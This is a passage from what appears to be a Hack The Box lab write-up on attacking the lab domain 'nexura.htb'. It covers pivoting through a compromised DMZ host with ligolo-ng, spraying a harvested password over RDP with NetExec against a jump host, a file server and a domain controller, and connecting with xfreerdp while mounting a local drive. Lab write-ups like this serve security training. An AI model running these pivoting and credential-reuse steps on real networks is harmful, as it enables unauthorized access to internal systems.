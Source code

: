 #### Network Routing Configuration
```bash
# In ligolo-ng console:
ligolo-ng » session
? Specify a session : 1 - jbetty@DMZ01 - 10.129.234.116:35974

[Agent : jbetty@DMZ01] » autoroute
? Select routes to add: 172.16.119.13/24
? Create a new interface or use an existing one? Create a new interface
? Start the tunnel? Yes
```

---

## 🔍 Phase 4: Internal Network Reconnaissance

### Target Enumeration
```bash
# Create target list for internal network
cat << EOF > hosts
172.16.119.13
172.16.119.7
172.16.119.10
172.16.119.11
EOF
```

### Credential Validation with NetExec
```bash
# Test discovered credentials against internal targets
netexec rdp hosts -u hwilliam -p 'dealer-screwed-gym1'

# Results:
RDP         172.16.119.7    3389   JUMP01           [*] Windows 10 or Windows Server 2016 Build 17763 (name:JUMP01) (domain:nexura.htb) (nla:True)
RDP         172.16.119.10   3389   FILE01           [*] Windows 10 or Windows Server 2016 Build 17763 (name:FILE01) (domain:nexura.htb) (nla:True)
RDP         172.16.119.11   3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:nexura.htb) (nla:True)
RDP         172.16.119.7    3389   JUMP01           [+] nexura.htb\hwilliam:dealer-screwed-gym1 (Pwn3d!)
RDP         172.16.119.10   3389   FILE01           [+] nexura.htb\hwilliam:dealer-screwed-gym1
RDP         172.16.119.11   3389   DC01             [+] nexura.htb\hwilliam:dealer-screwed-gym1
```

### RDP Connection with File Sharing
```bash
# Connect to JUMP01 with shared folder
xfreerdp /v:172.16.119.7 /u:hwilliam /p:'dealer-screwed-gym1' /dynamic-resolution /drive:linux,.
```

---
